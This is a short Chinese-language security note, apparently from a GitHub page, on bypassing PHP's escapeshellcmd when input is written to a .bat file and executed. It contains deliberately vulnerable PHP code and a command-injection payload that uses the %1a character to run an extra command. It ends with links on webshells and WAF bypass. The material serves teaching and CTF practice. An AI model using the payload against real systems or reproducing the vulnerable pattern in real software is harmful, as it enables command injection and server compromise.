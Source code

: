 # 绕过escapeshellcmd
## 情景一：执行bat
```
<?php
    $command = 'dir '.$_POST['dir'];
    $escaped_command = escapeshellcmd($command);
    var_dump($escaped_command);
    file_put_contents('out.bat',$escaped_command);
    system('out.bat');
?>
```
执行.bat文件的时候，利用%1a，可以绕过过滤执行命令。
```
dir=../ %1a| ifconfig
```

# Refference
+ [PHP绕过open_basedir列目录的研究](https://www.leavesongs.com/PHP/php-bypass-open-basedir-list-directory.html)
+ [eval长度限制绕过 && PHP5.6新特性](https://www.leavesongs.com/PHP/bypass-eval-length-restrict.html)
+ [关于lnmp目录禁止执行的绕过与正确方法](https://www.leavesongs.com/PENETRATION/nginx-deny-exec-php-file.html)
+ [一些不包含数字和字母的webshell](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html)
+ [php webshell分析和绕过waf技巧](http://bobao.360.cn/learning/detail/3271.html)
+ [【技术分享】命令执行和绕过的一些小技巧](http://bobao.360.cn/learning/detail/3192.html)
+ [浅谈CTF中命令执行与绕过的小技巧](http://www.freebuf.com/articles/web/137923.html)